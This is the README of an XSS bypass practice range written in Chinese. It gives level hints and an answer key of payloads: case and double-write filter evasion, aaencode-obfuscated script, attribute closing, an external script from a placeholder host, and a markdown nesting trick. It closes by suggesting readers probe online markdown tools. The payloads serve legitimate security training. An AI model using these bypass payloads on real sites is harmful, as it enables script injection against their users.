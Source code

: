 # 易锦 XSS 靶场

> 一个有意思的 XSS bypass 练习靶场，使用 React + Javascript 开发。

# 运行

1. 下载靶场源码，或者克隆到本地
2. 安装依赖

   ```bash
   npm  install
   ```
3. 运行靶场

   ```bash
   npm  start
   ```
4. 访问靶场

   默认是在[127.0.0.1:3000](127.0.0.1:3000)
5. 靶场使用

   在输入框中输入的内容经过 `parser` 函数处理之后渲染到一个 iframe 页面，这个 iframe 页面里的 `alert` 函数会被重写，调用 `alert` 之后就可以通关，通关后上方的关卡标题右边会出现”下一关“的按钮。

# 霉霉镇楼，不要偷看答案哦！

![](http://n.sinaimg.cn/ent/transform/20170506/zJy9-fyeyqek9981336.jpg)

# 通关思路（无 payload）

先试试根据下面的提示进行尝试，试不出来再去看带 payload 的详解版本。

1. 第一关

   这一关是 XSS 入门，只要会前端的人都会，就不说了。
2. 第二关

   针对常见的引用资源的标签名做了过滤，不过只替换小写，因此可以大写绕过。
3. 第三关

   补上了大小写匹配，但是采用粗暴的替换方式，可以使用双写绕过。
4. 第四关

   使用了神挡杀神佛挡杀佛的全大写，HTML 平安无恙，不过其中的 JS 就无法执行了——但是 JS 的某些 Bug 是可以当作 Feature 来尝试的。

   没有头绪吗？搜索 [aaencode](https://www.baidu.com/baidu?tn=monline_4_dg&ie=utf-8&wd=aaencode+) 试试。
5. 第五关

   这一关属于是返璞归真了， XSS 漏洞很多时候是从属性带入的，只要会构造闭合就行了。
6. 第六关

   这一关可能确实有点难，不过仔细观察一下，图片和链接语法是先后解析的——这意味着如果把两个语句“套娃”的话，可能会产生奇效。

# 锦鲤提示：不要偷看答案哦！

![](https://gimg2.baidu.com/image_search/src=http%3A%2F%2Fn.sinaimg.cn%2Fent%2Ftransform%2F373%2Fw440h733%2F20200315%2Fa895-iquxrui6507919.jpg&refer=http%3A%2F%2Fn.sinaimg.cn&app=2002&size=f9999,10000&q=a80&n=0&g=0n&fmt=auto?sec=1670418517&t=ceb307d6cdbf247168485e170673708b)

# 答案仅供参考（带 payload ）

1. 第一关，简单、原始、暴力

   ```html
   <script>alert()</script>
   ```
2. 第二关

   > 几个能带入脚本的标签会被替换掉，但是没考虑大写，所以果断大小写绕过，当然这里也可以使用双写。
   >

   ```html
   <SCRipt>alert('Hello world')</script>
   ```
3. 第三关

   > 这一关大小写都会被杀掉，所以首选双写绕过。
   >

   ```html
   <i<imgmg src onerror=alert() />
   ```
   ```html
   <scr<scriptipt>alert('Hello world')</script>
   ```
   > 也可以使用点击事件通关。
   >
   > 当然，XSS 利用的第一原则：能自动触发的绝不考虑交互触发。
   >

   ```html
   <a onclick="alert(1)">点我</a>
   ```
4. 第四关

   > 这一关它会把所有字母改成大写，*HTML* 还是可以带进去，但是 *JS* 带不进去了。
   >
   > 可以使用**不带字母**的方法通关（只有字母有大小写）。
   >

   ```html
   <script>ﾟωﾟﾉ= /｀ｍ´）ﾉ ~[表情][表情][表情]   //*´[表情]｀*/ ['_']; o=(ﾟｰﾟ)  =_=3; c=(ﾟΘﾟ) =(ﾟｰﾟ)-(ﾟｰﾟ); (ﾟДﾟ) =(ﾟΘﾟ)= (o^_^o)/ (o^_^o);(ﾟДﾟ)={ﾟΘﾟ: '_' ,ﾟωﾟﾉ : ((ﾟωﾟﾉ==3) +'_') [ﾟΘﾟ] ,ﾟｰﾟﾉ :(ﾟωﾟﾉ+ '_')[o^_^o -(ﾟΘﾟ)] ,ﾟДﾟﾉ:((ﾟｰﾟ==3) +'_')[ﾟｰﾟ] }; (ﾟДﾟ) [ﾟΘﾟ] =((ﾟωﾟﾉ==3) +'_') [c^_^o];(ﾟДﾟ) ['c'] = ((ﾟДﾟ)+'_') [ (ﾟｰﾟ)+(ﾟｰﾟ)-(ﾟΘﾟ) ];(ﾟДﾟ) ['o'] = ((ﾟДﾟ)+'_') [ﾟΘﾟ];(ﾟoﾟ)=(ﾟДﾟ) ['c']+(ﾟДﾟ) ['o']+(ﾟωﾟﾉ +'_')[ﾟΘﾟ]+ ((ﾟωﾟﾉ==3) +'_') [ﾟｰﾟ] + ((ﾟДﾟ) +'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ ((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [(ﾟｰﾟ) - (ﾟΘﾟ)]+(ﾟДﾟ) ['c']+((ﾟДﾟ)+'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ (ﾟДﾟ) ['o']+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ];(ﾟДﾟ) ['_'] =(o^_^o) [ﾟoﾟ] [ﾟoﾟ];(ﾟεﾟ)=((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟДﾟ) .ﾟДﾟﾉ+((ﾟДﾟ)+'_') [(ﾟｰﾟ) + (ﾟｰﾟ)]+((ﾟｰﾟ==3) +'_') [o^_^o -ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟωﾟﾉ +'_') [ﾟΘﾟ]; (ﾟｰﾟ)+=(ﾟΘﾟ); (ﾟДﾟ)[ﾟεﾟ]='\\'; (ﾟДﾟ).ﾟΘﾟﾉ=(ﾟДﾟ+ ﾟｰﾟ)[o^_^o -(ﾟΘﾟ)];(oﾟｰﾟo)=(ﾟωﾟﾉ +'_')[c^_^o];(ﾟДﾟ) [ﾟoﾟ]='\"';(ﾟДﾟ) ['_'] ( (ﾟДﾟ) ['_'] (ﾟεﾟ+/*´[表情]｀*/(ﾟДﾟ)[ﾟoﾟ]+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+(ﾟｰﾟ)+(ﾟΘﾟ)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((ﾟｰﾟ) + (ﾟΘﾟ))+(ﾟｰﾟ)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+(ﾟｰﾟ)+((ﾟｰﾟ) + (ﾟΘﾟ))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((o^_^o) +(o^_^o))+((o^_^o) - (ﾟΘﾟ))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((o^_^o) +(o^_^o))+(ﾟｰﾟ)+(ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+(c^_^o)+(ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+(ﾟΘﾟ)+(ﾟДﾟ)[ﾟoﾟ]) (ﾟΘﾟ)) ('_'); </script>
   ```
   > 或者也可使用如下 *alert payload*：
   >

   ```html
   <img src onerror="_ =[] + ![] + !![];__=[]+[][0];$_=[]+{};_1=$_[5]+$_[1]+__[1]+_[3]+$_[6]+_[6]+__[0]+$_[5]+$_[6]+$_[1]+_[6];_2=_[1]+_[2]+_[4]+_[6]+$_[6];(0)[_1][_1](_2+'(1)')()" />
   ```
   > 除了上面这种奇怪的编码之外，还可以使用跨站脚本。
   >
   > 先把一个内容为 `alert()`、名为 `ALERT.JS` 的脚本放到网站上：
   >

   ```html
   <script src="//xxxx.xxxx.xxx/ALERT.JS"></script>
   ```
5. 第五关

   > 构造 **HTML** 属性闭合(使用引号闭合)。
   >

   ```html
   " onerror="alert()
   ```
6. 第六关

   > markdown **图片**语法:
   >
   > ```markdown
   > ![图片的描述](图片的链接)
   > ```
   > markdown **链接**语法：
   >
   > ```markdown
   > [链接的描述](链接的地址)
   > ```
   > 有语法解析的地方，写点奇怪的东西，看能不能弄出解析结果错误。
   >
   > “*图片语法里面套娃套一个*链接语法”，造成 HTML 结构破坏，后面就可以 `onerror` 了，结合 `setTimeout` 特殊用法，绕开括号限制，拿下！
   >
   > ```markdown
   > ![[1](onerror=setTimeout`alert\x28\x29` )]()
   > ```
   >

   > #### 题解思路
   >
   > `Markdown` 产出的内容**通常被直接渲染到网页上**，而不会经过框架的反 *XSS* 过滤，框架对此无能为力了。
   >
   > 1. 通过查看代码，我们发现对方把单双引号跟小于符号都过滤掉了
   >
   >    ![image-20220505222836959](https://pic-base.oss-cn-hangzhou.aliyuncs.com/img/image-20220505222836959.png)
   >
   >    所以常规的闭合思路不可取。
   > 2. 但是，渲染标签的时候，对方给我们引入了梦寐以求的双引号
   >
   >    ```
   >    [1](2)
   >    ```
   >    ![image-20220505223014862](https://pic-base.oss-cn-hangzhou.aliyuncs.com/img/image-20220505223014862.png)
   > 3. 因此猜想把链接语法跟图片语法结合使用会有惊喜
   >
   >    ```
   >    ![[1](2)]()
   >    ```
   >    ![image-20220505223418266](https://pic-base.oss-cn-hangzhou.aliyuncs.com/img/image-20220505223418266.png)
   > 4. 尝试使用常规 payload，但是只有第一个括号，第二个被无意间干掉了，这是因为编辑器的语法解析的时候也需要圆括号，这个圆括号造成了干扰。
   >
   >    ```markdown
   >    ![[1](onerror=alert(1) )]()
   >    ```
   >    ![image-20220505223835738](https://pic-base.oss-cn-hangzhou.aliyuncs.com/img/image-20220505223835738.png)
   >
   >    所以我们需要一种不引入圆括号的方法。
   > 5. 结合 JS 的接口 `setTimeout` 可以**直接将后续的字符串变成代码**的奇葩特性，再加上十六进制编码 `\x29 ==> )`，有突破口！
   >
   >    ```markdown
   >    ![[1](onerror=setTimeout`alert\x28\x29` )]()
   >    ```
   >    ![image-20220505224141164](https://pic-base.oss-cn-hangzhou.aliyuncs.com/img/image-20220505224141164.png)
   >

   另外一种 针对 markdown 的 payload （仅针对对方没有过滤双引号的场景，不适用于这个靶场）：

   ```html
   ![]("onerror=setTimeout`alert\x28\x29`)
   ```
   > 以后遇到在线的 markdown 写作工具的时候可以试着挖掘一下。
   >
